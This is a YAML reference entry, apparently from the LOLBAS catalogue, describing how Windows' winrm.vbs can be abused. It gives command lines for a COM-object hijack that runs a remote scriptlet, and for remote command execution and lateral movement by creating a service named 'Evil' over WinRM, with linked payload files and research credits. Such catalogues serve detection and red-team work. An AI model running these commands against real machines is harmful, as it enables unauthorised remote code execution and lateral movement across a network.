 ```yaml
---
Name: Winrm.vbs
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
    Description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
  - Command: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
  - Command: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
Full Path:
  - C:\windows\system32\winrm.vbs
  - C:\windows\SysWOW64\winrm.vbs
Code Sample:
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr.reg
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr_calc.sct
Detection: []
Resources:
  - https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - https://www.youtube.com/watch?v=3gz1QmiMhss
  - https://github.com/enigma0x3/windows-operating-system-archaeology
  - https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - https://twitter.com/bohops/status/994405551751815170
Notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)
---
```


